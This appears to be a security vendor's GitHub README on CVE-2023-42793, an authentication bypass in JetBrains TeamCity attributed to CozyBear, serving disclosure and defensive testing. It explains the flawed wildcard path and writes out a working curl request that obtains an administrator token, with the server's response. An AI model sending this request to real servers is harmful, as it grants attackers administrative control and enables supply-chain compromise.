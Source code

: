 # JetBrains TeamCity CVE-2023-42793 PoC Exploit
CISA released a joint advisory on the Russian nation-state advanced persistent threat, CozyBear. CozyBear is observed to exploit an unauthenticated remote code execution vulnerability found in JetBrains TeamCity software for data exfiltration and possibly supply chain attacks.<br><br>
In this repo, Picus provides Proof-of-Concept exploit for the CVE-2023-42793 vulnerability.

Test security controls against the CVE-2023-42793 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-42793 vulnerability exploits for free. No setup or signup required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 
If you are looking for more detailed information check out our blog post: [CVE-2023-42793: CozyBear Targets Software Developers Exploiting JetBrains TeamCity](https://www.picussecurity.com/resource/blog/cve-2023-42793-cozybear-targets-software-developers-exploiting-jetbrains-teamcity)

CVE-2023-42793 Proof-of-concept (POC)
----------------------
CVE-2023-42793 vulnerability is an authentication bypass vulnerability. The vulnerability is found in the "RequestInterceptiors.java" file, and it is caused by the wildcard path "/**/RPC2" in the "myPreHandlingDisabled" PathSet. If any incoming HTTP request matches the wildcard path "/**/RPC2", the TeamCity server does not perform authentication checks.<br>
Adversaries abuse this vulnerability to obtain an access token by sending an HTTP POST request to "/app/rest/users/id:1/tokens/RPC2" endpoint.<br>
In the example below, RPC2 is the adversary-given name for the requested token, and it allows adversaries to gain access to an authentication token with the privileges of the user with the ID of 1, which is always the administrator created during system installation.

#### Example CVE-2023-42793 Exploit:
```bash
//Attacker-crafted POST request
curl -X POST http://<TeamCity_Server_IP>:8111/app/rest/users/id:1/tokens/RPC2

//TeamCity Server's response with Administrator authentication token
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2023-11-20T12:22:12.45Z" value="<Administrator_Token>"/>
```

Disclaimer
----------
We do not have any disclamer.
